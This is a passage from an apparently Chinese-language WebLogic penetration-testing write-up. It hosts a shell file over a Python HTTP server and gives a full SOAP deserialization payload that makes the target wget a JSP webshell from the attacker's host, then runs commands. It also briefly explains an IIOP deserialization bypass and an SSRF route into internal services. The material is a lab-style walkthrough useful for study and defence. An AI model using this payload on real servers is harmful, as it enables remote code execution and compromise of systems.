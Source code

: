 接下来开启http服务，使得它可以被访问  
```
python -m SimpleHTTPServer 1387
```  
  
![image-20230420121959310](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5Tk2LXh0mdEkZqudE3s5jRs906HSbwUNUuIGmqZ5MOzatExRA6OQxtQ/640?wx_fmt=png&from=appmsg "")  
  
在浏览器访问  
  
![image-20230420122017707](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK54Hzg0go2FplM9qWaOC0Vk2ibPXtb9icoHgeB63SplPyEowKtkRibsgpibQ/640?wx_fmt=png&from=appmsg "")  
  
接下来就可以直接打了，更改**Content-Type为:text/xml**  
，而后传输POST数据如下  
```
<soapenv:Envelopexmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService"><soapenv:Header><wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><voidclass="java.lang.ProcessBuilder"><array class="java.lang.String" length="3"><void index="0"><string>/bin/bash</string></void><void index="1"><string>-c</string></void><void index="2"><string>wget http://192.168.1.129:1387/shell.txt -O servers/AdminServer/tmp/_WL_internal/bea_wls9_async_response/8tpkys/war/shell.jsp</string></void></array><void method="start"/></void></work:WorkContext></soapenv:Header><soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>
```  
  
![image-20230420121756747](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5MhTQFHoQfDctFUo35gXYK4icBbWW0enuDFNAfBP82iazTHziapbAknzyA/640?wx_fmt=png&from=appmsg "")  
  
状态202则说明成功写入，接下来去访问这个木马文件并尝试执行命令  
  
![image-20230420121831475](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5nP2WacicEBd9dkiacCKUowsJAzMuM0kEVdOn09ibMBs5icBXBsKNTIbeibw/640?wx_fmt=png&from=appmsg "")  
  
![image-20230420121850723](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5VVQww0eqynIauDWibD79CqmWHqDmbJRuic23EYfLcIgA8t50icqytn2ow/640?wx_fmt=png&from=appmsg "")  
  
成功实现命令执行  
## iiop反序列化漏洞  
  
**漏洞主要原因是错误的过滤JtaTransactionManager类，JtaTransactionManager父类AbstractPlatformTransactionManager在之前的补丁里面就加入到黑名单列表了,T3协议使用的是resolveClass方法去过滤的,resolveClass方法是会读取父类的,所以T3协议这样过滤是没问题的。但是IIOP协议这块,虽然也是使用的这个黑名单列表,但不是使用resolveClass方法去判断的,这样默认只会判断本类的类名,而JtaTransactionManager类是不在黑名单列表里面的,它的父类才在黑名单列表里面,这样就可以反序列化JtaTransactionManager类了,而JtaTransactionManager类是存在jndi注入的。**  
## SSRF漏洞  
  
**weblogic中存在SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件**  
# 其他  
  
中间出了一点小Bug，就是我没安装javac，只有java，但安装了过后发现无法运行jar包了  
  
![image-20230420141640717](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5sEFNPsV9YOTf7xHPsn3OWkSj8KgI5fX6XuoU3jEOe8HqU1XaIdiazHw/640?wx_fmt=png&from=appmsg "")  
  
百度过后发现是jdk版本的问题，我们可以使用下面指令来切换JDK版本  
```
update-alternatives --config java 
```  
  
